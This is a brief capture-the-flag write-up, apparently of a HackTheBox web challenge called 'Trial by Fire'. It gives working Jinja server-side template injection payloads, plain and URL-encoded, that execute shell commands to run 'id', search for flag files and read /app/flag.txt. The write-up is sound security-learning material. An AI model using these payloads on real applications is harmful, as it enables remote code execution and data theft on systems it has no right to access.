 ```yaml
---
title: Trial by Fire
tags:
  - CTF
  - HackTheBox
  - CyberApocalypse
  - Web
  - SSTI
date: 2025-03-21T00:00:00Z
---
```

![](Pasted%20image%2020250321194504.png)

![](Pasted%20image%2020250321210642.png)

If I press the ArrowUp:

![](Pasted%20image%2020250321212152.png)

I downloaded the zip and inspected the source files.

We have to implant sn SSTI in the name param, then loose and dump the globals of Jinja:

![](Pasted%20image%2020250321213422.png)

![](Pasted%20image%2020250321213403.png)

We can try a RCE via SSTI

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
# URL Encode
%7B%7B%20self%2E%5F%5Finit%5F%5F%2E%5F%5Fglobals%5F%5F%2E%5F%5Fbuiltins%5F%5F%2E%5F%5Fimport%5F%5F%28%27os%27%29%2Epopen%28%27id%27%29%2Eread%28%29%20%7D%7D
```

![](Pasted%20image%2020250321214344.png)

It works!

Now I'll try to enumerate and read the flag:

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('find / -type f -name "*flag*" 2>/dev/null').read() }}
# URL Encode
%7B%7B%20self%2E%5F%5Finit%5F%5F%2E%5F%5Fglobals%5F%5F%2E%5F%5Fbuiltins%5F%5F%2E%5F%5Fimport%5F%5F%28%27os%27%29%2Epopen%28%27find%20%2F%20%2Dtype%20f%20%2Dname%20%22%2Aflag%2A%22%202%3E%2Fdev%2Fnull%27%29%2Eread%28%29%20%7D%7D
```

![](Pasted%20image%2020250321214831.png)

```shell
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /app/flag.txt').read() }}
# URL Encode
%7B%7B%20self%2E%5F%5Finit%5F%5F%2E%5F%5Fglobals%5F%5F%2E%5F%5Fbuiltins%5F%5F%2E%5F%5Fimport%5F%5F%28%27os%27%29%2Epopen%28%27cat%20%2Fapp%2Fflag%2Etxt%27%29%2Eread%28%29%20%7D%7D
```

![](Pasted%20image%2020250321215043.png)

![](Pasted%20image%2020250321215059.png)